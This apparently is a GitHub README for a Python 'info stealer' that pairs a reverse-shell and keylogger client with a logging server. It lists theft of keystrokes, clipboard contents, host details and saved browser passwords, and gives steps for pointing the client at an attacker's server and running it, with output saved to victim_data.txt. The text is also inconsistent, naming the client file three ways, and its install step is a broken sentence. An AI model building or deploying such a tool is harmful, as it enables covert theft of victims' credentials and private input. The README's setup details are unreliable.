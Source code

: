# simple info stealer Project

This project consists of a reverse shell implementation with keylogging capabilities. It involves two main components: a client script (`reversShell.py`) that runs on the target machine and sends data back to a server, and a server script (`server.py`) that receives and logs the data sent by the client.

## Features

1. **Socket Communication**:
   - Establishes a socket connection between the client and the server.
   - Sends data from the client to the server.

2. **Keylogging**:
   - Captures keystrokes on the client machine.
   - Sends captured keystrokes to the server.

3. **Clipboard Data**:
   - Captures clipboard data from the client machine.
   - Sends clipboard data to the server.

4. **Host Information**:
   - Gathers detailed information about the host machine, including:
     - Hostname
     - Private and public IP addresses
     - Processor information
     - Operating system details
     - Disk usage
     - Memory usage
   - Sends host information to the server.

5. **Password Stealing**:
   - Extracts saved passwords from browsers (Chrome, Edge, Firefox).
   - Sends extracted passwords to the server.

## Requirements

- Python 3.x
- Required Python libraries:
  - `pynput`
  - `requests`
  - `psutil`
  - `pywin32`

Install the required libraries using pip:

the reverseshell install the modules

## Usage

### Setting up the Server

1. **Run the server script:**

    ```bash
    python server.py
    ```

    This script starts the server, listens for incoming connections, and logs keystrokes received from clients into a file (`./victim_data.txt`).

### Running the Keylogger Client

1. **Configure the Keylogger Client:**

    Modify `client.py` with the IP address and port of your server:

    ```python
    ke = Keylogger("server_ip", 9999)  # Replace with your server's IP and port
    ```

2. **Run the keylogger client script:**

    ```bash
    python reverseShell.py
    ```

    This script connects to the specified server and starts capturing keystrokes. It also gathers browser data and system information, sending all collected data to the server for logging.

## Troubleshooting

- **File Permissions:** Ensure the server has write permissions for the `./victim_data.txt` file in the project directory.

## Acknowledgments

- Thanks to the developers of `pynput`, `socket`, `sqlite3`, `requests`, `psutil`, `platform`, `pathlib`, `shutil`, `rarfile`, and `hashlib` libraries/modules for their contributions.

---

Ensure to adjust the IP address, port number, and paths in the scripts (`reverseShell.py` and `server.py`) according to your setup. This README provides a comprehensive overview of your keylogger project, including how it captures browser data, system information, and its integration with the malware detector functionality.
